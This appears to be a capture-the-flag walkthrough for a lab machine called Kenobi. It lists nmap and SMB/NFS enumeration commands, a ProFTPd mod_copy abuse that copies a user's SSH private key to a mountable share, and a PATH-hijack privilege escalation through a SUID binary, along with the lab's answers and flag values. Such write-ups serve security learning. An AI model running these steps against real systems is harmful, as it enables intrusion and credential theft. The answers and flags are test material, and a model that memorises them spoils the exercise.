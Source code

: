 
ip addr
10.10.88.135

nmap scan

`sudo nmap -sC -sV -oN nmap/initial 10.10.88.135`

---
## Task 1

### Scan the machine with nmap, how many ports are open?
    7

---

## Task 2

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.88.135

### Using the nmap command above, how many shares have been found?
    3


`smbclient //10.10.88.135/anonymous`


### Once you're connected, list the files on the share. What is the file can you see?
    log.txt

### What port is FTP running on?
    21

`smbget -R smb://10.10.88.135/anonymous `

`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.88.135`

### What mount can we see?
    /var

## Task 3
### Proftpd 
    ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.

### connect netcat ftp server

`nc 10.10.88.135 21`

### What is the version?
    1.3.5

### How many exploits are there for the ProFTPd running?
    3

### steal the private rsa_id 

`SITE CPFR /home/kenobi/.ssh/id_rsa`

350 File or directory exists, ready for destination name

`SITE CPTO /var/tmp/id_rsa`

250 Copy successful

### mount /var/tmp

`sudo mkdir /mnt/kenobiMNT`

`sudo mount 10.10.88.135:/var /mnt/kenobiMNT/`

    mount: /mnt/kenobiMNT: bad option; for several filesystems (e.g. nfs, cifs) you might need a /sbin/mount.<type> helper program.

`sudo apt install nfs-common`

`ls -l /mnt/kenobiMNT/`

`cp /mnt/kenobiMNT/tmp/id_rsa .`

`sudo chmod 600 id_rsa `

`ssh -i id_rsa kenobi@10.10.88.135`

`kenobi@kenobi:~$ pwd`

    /home/kenobi

`cat user.txt`
    
### Flag #1
    d0b0f3f53b6caa532a83915e19224899


## Task 4
### Priv Esc using suid
### suid - User executes the file with permissions of the file owner 

`find / -perm -u=s -type f 2>/dev/null`

### What file looks particularly out of the ordinary? 
    /usr/bin/menu

`strings /usr/bin/menu`
    
    curl -I localhost
    
    uname -r
    
    ifconfig

`cd tmp`

`echo /bin/sh > curl`

`chmod 777 curl`

`export PATH=/tmp:$PATH`

`/usr/bin/menu`

`cat /root/root.txt`

### Flag #2
    177b3cd8562289f37382721c28381f02

